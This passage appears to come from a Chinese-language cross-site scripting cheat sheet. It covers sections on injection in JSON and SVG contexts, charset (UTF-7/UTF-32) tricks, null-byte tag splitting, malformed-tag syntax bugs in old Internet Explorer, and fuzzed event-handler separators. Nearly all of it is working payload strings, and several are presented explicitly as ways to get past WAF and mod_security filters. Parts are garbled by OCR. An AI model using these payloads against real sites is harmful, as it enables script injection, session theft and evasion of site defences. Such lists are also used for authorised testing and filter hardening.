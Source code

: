 			data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
		(5)JSON内容
			反射输入
			encodeURIComponent(&#039;userinput&#039;)
			可以使用
			-alert(1)-
			-prompt(1)-
			-confirm(1)-
			结果
			encodeURIComponent(&#039;&#039;-alert(1)-&#039;&#039;)
			encodeURIComponent(&#039;&#039;-prompt(1)-&#039;&#039;)
		(6)输入反射在svg标签内
			源码如下：
			<svg><script>varmyvar=”YourInput”;</script></svg>
			可以输入
			www.site.com/test.php?var=text”;alert(1)//
			如果系统编码了”字符
			<svg><script>varmyvar="text&quot;;alert(1)//";</script></svg>
			原因是引入了附加的（XML）到HTML内容里，可以使用2次编码处理
			浏览器BUG
		(7)字符集BUG
			字符集BUG在IE中很普遍，最早的bug是UTF-7。如果能控制字符集编码，我们可以绕过99% 的WAF过滤。
			示例
			http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=XSS
			可以控制编码，提交
			http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=”><img
			src=x onerror=prompt(0);>
			可以修改为UTF-32编码形式
			???script?alert(1)?/script?
			http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80
		(8)空字节
			最长用来绕过mod_security防火墙，形式如下：
			<scri%00pt>alert(1);</scri%00pt>
			<scri\x00pt>alert(1);</scri%00pt>
			<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
			空字节只适用于PHP 5.3.8以上的版本
		(9)语法BUG
			RFC声明中节点名称不能是空格，以下的形式在javascript中不能运行
			<script>alert(1);</script>
			<%0ascript>alert(1);</script>
			<%0bscript>alert(1);</script>
			<%, <//, <!,<?可以被解析成<，所以可以使用以下的payload
			<//     style=x:expression\28write(1)\29> // Works upto IE7 参考http://html5sec.org/#71
			<!--[if]><script>alert(1)</script     --> // Works upto IE9 参考http://html5sec.org/#115
			<?xml-stylesheet     type="text/css"?><root     style="x:expression(write(1))"/> // Works in IE7 参考 http://html5sec.org/#77
			<%div%20style=xss:expression(prompt(1))>     // Works Upto IE7
		(10)Unicode分隔符
			[on\w+\s*]这个规则过滤了所有on事件，为了验证每个浏览器中有效的分隔符，可以使用fuzzing方法测试0×00到0xff，结果如下：
			IExplorer=     [0x09,0x0B,0x0C,0x20,0x3B]
			Chrome =     [0x09,0x20,0x28,0x2C,0x3B]
			Safari = [0x2C,0x3B]
			FireFox=     [0x09,0x20,0x28,0x2C,0x3B]
			Opera = [0x09,0x20,0x2C,0x3B]
			Android =     [0x09,0x20,0x28,0x2C,0x3B]
			x0b在Mod_security中已经被过滤，绕过的方法：
			<a/onmouseover[\x0b]=location=&#039;\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B&#039;>rhainfosec
		(11)缺少X-frame选项
			通常会认为X-frame是用来防护点击劫持的配置，其实也可以防护使用iframe引用的xss漏洞
			Docmodes
			IE引入了doc-mode很长时间，提供给老版本浏览器的后端兼容性，有风险，攻击情景是黑客可以引用你站点的框架，他可以引入doc-mode执行css表达式